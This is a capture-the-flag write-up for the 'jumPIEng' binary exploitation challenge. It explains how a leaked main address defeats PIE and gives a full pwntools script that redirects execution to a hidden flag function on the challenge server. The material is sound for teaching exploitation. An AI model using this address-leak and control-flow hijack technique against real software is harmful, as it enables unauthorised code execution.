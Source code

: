 ```markdown
# jumPIEng

**Category:** Binary Exploitation  
**Description:**  
Harry, a rookie in the realm of CTFs, has been exploring the nuances of Position-Independent Executables (PIE). He’s convinced that once a binary is compiled with PIE, it’s impossible to leak the flag—no matter how much address information is known. Our task is to prove otherwise by hijacking the program flow to a secret flag-printing function.

---

## Challenge Connection

```bash
nc 34.131.133.224 12346
```

## Provided File

- `redirection` (the binary)

---

## Analysis

1. **PIE and Address Leaks**  
   With **PIE (Position-Independent Executable)**, the binary’s memory addresses are randomized at runtime. However, if any address is leaked—especially that of `main`—we can use it to calculate the **base address** of the binary in memory.

2. **Leaked Address**  
   The challenge conveniently prints the **main** function’s address (e.g., `0x11A9`). This is our starting point for computing the **base address**.

3. **Flag Function**  
   The binary includes a function named `redirect_to_success`, located at a known offset (e.g., `0x1262`) relative to the binary’s base.

4. **Base Address Calculation**  
   The **base address** is determined by `leaked_main_address - e.symbols['main']`. Once we have the base, we can add the offset of `redirect_to_success` to jump directly to the function that prints the flag.

---

## Exploit Steps

1. **Receive the Main Address**  
   - The program outputs the **main** function’s address. Parse that address from the challenge output.

2. **Compute Base Address**  
   ```python
   base_address = main_leaked - e.symbols['main']
   ```
   - This transforms the leaked runtime address into the loaded base address of the binary.

3. **Calculate Redirect Function Address**  
   ```python
   redirect_address = base_address + e.symbols['redirect_to_success']
   ```
   - With the base address known, simply add the `redirect_to_success` offset to find its actual runtime location.

4. **Send the New Address**  
   - Provide the calculated address (`redirect_address`) back to the challenge process, effectively **redirecting** the program flow to the flag-printing function.

---

## Full Exploit Script

```
from pwn import *

binary = './redirection'
context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = remote('34.131.133.224', 12346)  # Connect to challenge server

# Read the leaked address of main
r.recvuntil('Main function address: ')
main_leaked = r.recvline()
main_leaked = int(main_leaked, 16)

# Calculate base address
base_address = main_leaked - e.symbols['main']
log.info(f'Base address: {hex(base_address)}')

# Calculate actual address of the flag function
redirect_to_abyss = base_address + e.symbols['redirect_to_success']
log.info(f'Flag function address: {hex(redirect_to_abyss)}')

# Send the address to redirect program flow
r.sendline(hex(redirect_to_abyss))
r.interactive()
```

---

## Conclusion

Despite Harry’s confidence in PIE protection, leaking even a single function’s address (like `main`) allows us to locate and invoke the secret flag function. This demonstrates a typical approach in PIE-enabled binary exploitation:

1. **Leak an address** (e.g., `main`).  
2. **Calculate** the base address.  
3. **Redirect** execution to the hidden or otherwise unreferenced function.

By doing so, we successfully **prove Harry wrong** and capture the flag!
```
